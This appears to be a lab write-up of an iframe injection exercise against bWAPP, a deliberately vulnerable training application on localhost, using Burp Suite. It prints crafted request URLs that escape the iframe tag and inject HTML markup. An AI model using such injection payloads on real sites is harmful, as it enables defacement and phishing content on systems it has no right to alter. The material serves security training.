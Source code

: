 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/2c6cebae-2df1-40d6-b57b-6f04d890c8d8)

- Let's intercept the request in Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/2105e054-77f8-4d7d-944b-baf9743c029f)

- We can now forward this request to the `Repeater` in order to make modifications to it.

![3](https://github.com/Knign/Write-ups/assets/110326359/cf370f62-63e4-47b5-9d53-a8b5b191a0fb)

- As we can see the URL is being used to complete the `<iframe>` tag.
- Let's try to escape the tag by using the following request URL:
```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe> HTTP/1.1
```

![4](https://github.com/Knign/Write-ups/assets/110326359/920657f0-9e30-4d22-aa21-0b9e924b67b2)

- We can see that the `</iframe>` tag set by the application now is a lone closing tag. This proves that we have successfully escaped the tag.
- We can now perform a regular HTML URL injection.
```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1> HTTP/1.1
```

![4](https://github.com/Knign/Write-ups/assets/110326359/06bbc5ef-0288-49fa-b37e-2a996a195a3a)

- We can even do the same exploit directly in the browser using the following URL:
```
http://localhost/bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1>
```

![6](https://github.com/Knign/Write-ups/assets/110326359/7b3b8f4c-c065-45ef-92b4-a13becc853b3)

- We can see our message `<h1>` tags.
